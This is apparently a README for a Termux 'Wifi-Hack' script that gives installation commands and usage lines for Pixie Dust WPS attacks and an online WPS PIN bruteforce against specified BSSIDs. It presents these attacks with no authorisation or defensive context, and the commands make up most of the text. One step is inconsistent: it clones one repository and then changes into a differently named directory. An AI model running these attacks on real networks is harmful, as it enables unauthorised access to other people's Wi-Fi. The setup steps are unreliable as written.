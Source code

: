 ## Wifi-Hack
### Hack Wifi Using Termux! (Requires Root)

<p align="center"><img src="https://i.ibb.co/K74g0SC/hulu.jpg"></p>

### Installation :

```bash
apt update && apt upgrade
pkg install -y root-repo
pkg install -y git tsu python wpa-supplicant pixiewps iw
git clone https://github.com/Mahfuz-THBD/Wifi_Hack
cd Wifite_RakibRoni
chmod +x wifihack.py
sudo python wifihack.py --help
```

#### Example : `sudo python wifihack.py -i wlan0 -K`

#### Note: 
**First turn off your Wifi.**
- Show avaliable networks and start Pixie Dust attack on a specified network.
- `sudo python wifihack.py -i wlan0 -K`
- - Start Pixie Dust attack on a specified BSSID:
`sudo python wifihack.py -i wlan0 -b 00:91:4C:C3:AC:28 -K`
- Launch online WPS bruteforce with the specified first half of the PIN:
- `sudo python wifihack.py -i wlan0 -b 00:90:4C:C1:AC:21 -B -p 1234`
### Troubleshooting
**"Device or resource busy (-16)" - Turn on Wifi and Then Turn off Wifi.**
